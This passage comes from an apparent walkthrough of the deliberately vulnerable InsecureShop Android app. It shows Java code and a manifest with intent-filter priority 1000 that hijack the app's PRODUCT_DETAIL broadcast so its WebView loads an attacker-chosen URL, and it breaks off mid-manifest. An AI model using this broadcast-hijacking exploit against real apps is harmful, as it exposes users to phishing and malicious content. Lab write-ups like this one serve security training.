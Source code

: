The problem here is that there is no Intent extra data that we can control, all of them are hardcoded into the application. Here we have a registered broadcast receiver that is looking the action or waiting for the Intent filter with the value of `"com.insecureshop.action.PRODUCT_DETAIL"` in, which will be triggered as the more info button is clicked on the `ProductDetail` activity page. Then the `onReceive` method will be triggered to open the `"https://www.insecureshopapp.com"` URL in a WebView. 

So to exploit this behavior, logically, we have to create an identical `onReceive` method and add our own URL. But we can make the application load our own method and ignore itself?? 

**`android:priority`** is an attribute used in Android to determine the order in which components such as **broadcast receivers** handle broadcast messages. When multiple components can handle the same broadcast, the **priority** attribute determines which one should process the broadcast first.

**Where It Is Used:** commonly set for broadcast receivers in the `AndroidManifest.xml` or dynamically in code using an `IntentFilter`.

**How It Works:** The value can range from -**1000** to **1000**. A higher number indicates a higher priority. If not specified, the default priority is 0.

Great, So let’s create our own Broadcast receiver to overwrite the application receiver:

```java
package com.insecureshopapp.productlistactivityexploit;
public class MainActivity extends AppCompatActivity {
    private Context context;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        BroadcastReceiver receiver = new BroadcastReceiver() {
            @Override
            // Once a broadcast received with a specific intent
            public void onReceive(Context context, Intent intent) {
            // Getting the value from the defined extras
                Intent WebViewintent = new Intent("com.insecureshop.action.WEBVIEW");
                WebViewintent.putExtra("url", "https://itsfading.github.io");
                startActivity(WebViewintent);
            }
    };
    // Waiting for any broadcast with this intent "com.insecureshop.action.PRODUCT_DETAIL"
    registerReceiver(receiver, new IntentFilter("com.insecureshop.action.PRODUCT_DETAIL"));
}
}
```

And the most importantly is to add the `android:priority` attribute to the `AndroidManifest.xml`:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.insecureshopapp.productlistactivityexploit">
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.ProductListActivityExploit">
        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter android:priority="1000">
                <action android:name="com.insecureshop.action.PRODUCT_DETAIL" />
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
```